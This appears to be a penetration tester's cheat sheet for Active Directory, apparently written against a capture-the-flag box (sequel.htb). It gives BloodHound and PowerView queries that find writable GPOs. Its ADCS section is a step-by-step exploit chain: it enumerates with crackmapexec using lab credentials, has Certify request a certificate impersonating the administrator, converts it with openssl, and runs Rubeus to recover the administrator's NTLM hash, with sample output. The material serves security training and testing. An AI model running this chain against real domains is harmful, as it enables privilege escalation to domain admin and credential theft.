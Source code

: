 ```
```
## GPO
```
Bloodhound: MATCH (gr:Group), (gp:GPO), p=((gr)-[:GenericWrite]->(gp)) RETURN p
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=blah,DC=com" -ResolveGUIDs | ? {​​​​​​​ $_.ObjectAceType -eq "Group-Policy-Container" }​​​​​​​ | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? {​​​​​​​​​​​​​ $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" }​​​​​​​​​​​​​ | select ObjectDN, SecurityIdentifier | fl

```

# ADCS
Web enrollment is up - ESC8 - can be easy domain admin


You can also check if web enrollment is up via crackmapexec
```bash
crackmapexec ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```
You can upload cerify.exe and check for vulnerabilities too:
```powershell
.\Certify.exe find /vulnerable /currentuser
```
Look for Domain Users in enrollment rights:
```text
 Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513

```

## Certify
Exploit with:
```powershell
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```
You will get a result back that starts with -----BEGIN RSA PRIVATE KEY----- and ends with -----END CERTIFICATE-----
Copy all of it to a file `cert.pem`
Generate cert with:
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Upload Rubeus and the new cert to the box:
```powershell
C:\programdata> .\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```
If it worked, the result will have this:
```text
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : A52F78E4C751E5F5E17E1E9F3E58F4EE

```